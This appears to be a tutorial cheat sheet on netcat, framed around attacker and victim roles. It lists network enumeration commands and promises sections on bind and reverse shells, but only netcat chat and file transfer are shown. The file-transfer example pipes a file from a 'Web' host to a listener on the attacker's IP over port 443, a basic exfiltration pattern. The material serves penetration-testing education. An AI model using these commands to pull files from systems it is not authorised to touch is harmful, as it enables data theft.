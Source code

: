 # Network Enumeration

- `ifconfig`: Display network interface information.
- `netstat -tulpn`: List active network connections.
- `arp -a`: Display ARP table.
- `ping <target IP>`: Test network connectivity to a target.
- `nmap`: Scan a network for open ports and services.

This is a basic cheat sheet for creating and using reverse shells

---



### Netcat: Bind Reverse Shell


> Netcat bind reverse shell allows remote access by binding a shell to a network port, enabling connections from an external machine

```

 Table of Content: 1. Basic Netcat: Chat 2. Basic Netcat: Transfer File 3. Basic Netcat: Port Scaning 4. Netcat: Bind Reverse Shell 5. Netcat: Pivoting 6. Netcat: Ngrok


```

### 1. Basic Netcat: Chat

![None](https://miro.medium.com/v2/resize:fit:700/1*lTEkRsmv1GddUNe5RJrT5Q.png)

Netcat Reverse

![None](https://miro.medium.com/v2/resize:fit:700/1*yAV7WticKeSHk3ImkeQ2GA.png)

				Chat Communication


```
Attacker: nc -nvlp 443 
Web: nc 192.168.100.188 443
```

![None](https://miro.medium.com/v2/resize:fit:700/1*VAoHQDJMloGYESzKV2Sntg.png)

					Netcat Bind

### 2. Basic Netcat: Transfer File

![None](https://miro.medium.com/v2/resize:fit:700/1*W2VoG34J-ijwMJlrra-uxg.png)

			Netcat Reverse: Transfer File from Web to Attacker

```
Attacker: nc -nvlp 443 > file.txt 
cat file.txt 

Web: echo "netcat transfer" > file.txt 
nc 192.168.100.188 443 < file.txt
```

